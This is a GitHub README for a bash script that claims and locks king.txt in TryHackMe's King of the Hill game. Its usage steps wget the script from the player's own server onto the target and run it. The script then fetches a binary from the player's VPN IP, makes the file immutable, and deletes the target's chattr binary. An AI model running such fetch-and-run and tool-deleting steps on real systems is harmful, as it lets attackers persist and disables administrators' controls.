


# Kingster - Protect King.txt in THM's KOTH


Kingster is a bash script designed to protect the king.txt file in the King of the Hill (KOTH) challenge on TryHackMe.
It grants the player the "King" status by modifying file attributes and setting protections for king.txt.

### WARNING!!!
This script is meant **only for KOTH purposes**, and misuse of it may harm your system.
The script deletes the `chattr` binary, making it useless. Always conduct your research in a controlled environment.

## How the Script Works:

**Downloading Dependencies**: The script downloads the `changeattr` binary and ensures it has execution permissions.
**Protecting king.txt**: It then resets the attributes of the `king.txt` file, sets a new owner for the file, and applies the necessary permissions to protect the file (making it immutable).

### Usage:



**Download the Script**:
On your target machine, use the following commands to download and execute the script:

```bash
wget http://<your_server_ip>/kingster.sh
chmod +x kingster.sh
bash kingster.sh <nickname> <vpn_ip>
```

**Parameters**:
- `<nickname>`: The nickname of the player who will become the King.
- `<vpn_ip>`: The IP address of the server hosting the `changeattr` binary.

Example:

```bash
root@target:~# bash kingster.sh Player 10.10.0.1
```

This will set **Player** as the King and protect the king.txt file.

---

### Sample Output of the Script:

When you run the script, you will see a colorful and interactive output like the following:

```
[+] Downloading Dependencies.
[+] Resetting attributes of /root/king.txt and removing it.
[+] Setting Player as King.
[+] Setting attributes for /root/king.txt (protecting king.txt).
```

If the process is successful, the following success message will be displayed:

```
[+] Congratulations Player, You are the new King of the game!
```

---

## Author:
**0xB3C001**
Email: [b3c001@proton.me](mailto:b3c001@proton.me)

## License:
This script is released under the MIT License.


## More Information:
For more details, visit the GitHub repository:
[https://github.com/b3c001/Kingster](https://github.com/b3c001/Kingster)
